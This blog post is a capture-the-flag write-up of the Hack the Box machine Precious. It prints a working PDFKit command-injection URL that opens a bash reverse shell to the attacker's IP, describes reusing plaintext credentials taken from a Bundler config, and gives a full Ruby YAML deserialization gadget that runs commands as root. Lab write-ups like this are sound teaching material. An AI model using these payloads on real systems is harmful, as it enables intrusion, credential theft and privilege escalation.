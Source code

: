 +++
author = "Nick"
categories = ["hack the box", "Easy"]
date = 2023-05-20T11:00:00.000Z
publishDate = 2023-05-20T11:00:00.000Z
description = "Precious is an Easy Difficulty Linux machine, that focuses on the Ruby language. It hosts a custom Ruby web application, using an outdated library, namely pdfkit, which is vulnerable to CVE-2022-25765, leading to an initial shell on the target machine. After a pivot using plaintext credentials that are found in a Gem repository config file, the box concludes with an insecure deserialization attack on a custom, outdated, Ruby script."
draft = false
thumbnail = "/images/precious/logo.png"
slug = "hack-the-box-precious"
summary = ""
tags = ["hack the box", "Easy", "Linux", "PDFKit", "Ruby", "Deserilization", "code review"]
title = "Hack the Box - Precious"
url = "/hack-the-box-precious"
+++

Today we are doing the Hack the Box machine Precious. This machine is listed as an Easy machine. 

We start by doing a basic `rustscan` of the system - 10.129.228.98:

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    syn-ack nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Now we take a look at what's going on for the webservice. We are greeted with a page that says we can convert a web page to a PDF.

![](/images/precious/1.png)

So we point it at itself, but doesn't seem to be able to read it. So we host our own web server via `python3 -m http.server 80` and sure enough, it can convert that to a PDF. Trying a few more things but none seem to really get us anywhere in terms of extract information from the server itself. Next we run `strings` on the file and determine its made by `PDFKit 0.8.6`. Google shows an exploit and quite a few PoC's - (see)[https://duckduckgo.com/?q=pdfkit+exploit&atb=v332-1&ia=web].

So now that we can see a method for creating a reverse shell, we do just that. We craft a webpage with a shell on it. Trying multiple shells the one that eventually worked was this query:

```
http://10.10.14.2/?name=%20`bash -c "bash -i >& /dev/tcp/10.10.14.2/4242 0>&1"`
```

I wasn't able to catch any `python` shells back and the `ruby` shells kept terminating unexpectedly - so if anyone out there knows why, let me know!

We set up our `netcat` listener and run the command.

![](/images/precious/2.png)

Once we're on the box, we transfer over `linpeas.sh` and let that do some enumeration. While that runs, we can manually enumerate a bit. We end up finding a file called `config` in the `~/.bundle` directory. Reading the contents of this file gives us credentials.

![](/images/precious/3.png)

We try these credentials for `SSH` and sure enough, they work! We are able to login as `henry` and get our `user.txt` flag!

![](/images/precious/user.png)

Now with the first flag down, we start to enumerate again. We run our standard `sudo -l` and see that we do have access to a file we can run.

![](/images/precious/4.png)

We are able to run `update_dependencies.rb` as `root`. So, we inspect this file.

![](/images/precious/5.png)

As we review this code, we see somethign that sticks out immediatly. A `YAML` file that is being read incorrectly. The application is using `YAML.load` which is unsafe. So, reminding myself that this is `Ruby` and not `Python`, do a quick check on `Yaml Deserialization` for `Ruby`. Turns out this is [indeed a thing](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) and [multple sources](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/) of it as well!

Now, reading through these research documents we have an idea of what we need to do. We'll create a `dependencies.yml` file with our malicious code within. 

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cat /root/root.txt
         method_id: :resolve
```

Next we simply run the `update_dependencies.rb` file.

![](/images/precious/root.png)

There we are, the `root` flag!. After that, modifying the code to do whatever you want is easy. So, I re-ran the exploit again, but this time simply asking for a `root` shell. To do this, simply modify the `git_set` in the `dependencies.yml` file to as for `/bin/bash`. Poof. `Root` shell!

![](/images/precious/root2.png)

Another machine down. See ya'll next time!